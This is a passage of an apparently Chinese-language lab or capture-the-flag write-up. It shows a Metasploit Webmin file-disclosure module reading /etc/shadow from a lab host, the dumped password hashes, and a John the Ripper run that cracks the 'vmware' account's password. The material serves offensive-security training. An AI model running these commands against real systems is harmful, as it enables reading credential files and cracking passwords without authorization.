     
    
    View the full module info with the info, or info -d command.
    
    msf6 auxiliary(admin/webmin/file_disclosure) > set rhosts 192.168.2.138
    rhosts => 192.168.2.138
    msf6 auxiliary(admin/webmin/file_disclosure) > set rpath /etc/shadow
    rpath => /etc/shadow
    msf6 auxiliary(admin/webmin/file_disclosure) > run
    [*] Running module against 192.168.2.138
    
    [*] Attempting to retrieve /etc/shadow...
    [*] The server returned: 200 Document follows
    root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
    daemon:*:14040:0:99999:7:::
    bin:*:14040:0:99999:7:::
    sys:*:14040:0:99999:7:::
    sync:*:14040:0:99999:7:::
    games:*:14040:0:99999:7:::
    man:*:14040:0:99999:7:::
    lp:*:14040:0:99999:7:::
    mail:*:14040:0:99999:7:::
    news:*:14040:0:99999:7:::
    uucp:*:14040:0:99999:7:::
    proxy:*:14040:0:99999:7:::
    www-data:*:14040:0:99999:7:::
    backup:*:14040:0:99999:7:::
    list:*:14040:0:99999:7:::
    irc:*:14040:0:99999:7:::
    gnats:*:14040:0:99999:7:::
    nobody:*:14040:0:99999:7:::
    dhcp:!:14040:0:99999:7:::
    syslog:!:14040:0:99999:7:::
    klog:!:14040:0:99999:7:::
    mysql:!:14040:0:99999:7:::
    sshd:!:14040:0:99999:7:::
    vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
    obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
    osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
    yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
    [*] Auxiliary module execution completed
    msf6 auxiliary(admin/webmin/file_disclosure) > 
    
    ```

-   将账号密码保存到文档中进行破解--> 得到账号密码:`vmware:h4ckm3`

-   ```shell
    └─$ john  Pass-crash --wordlist=/usr/share/wordlists/rockyou.txt                 
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 5 password hashes with 5 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    h4ckm3           (vmware)     
    1g 0:00:05:24 DONE (2023-05-26 11:18) 0.003083g/s 43474p/s 197323c/s 197323C/s  ejngyhga007..*7¡Vamos!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    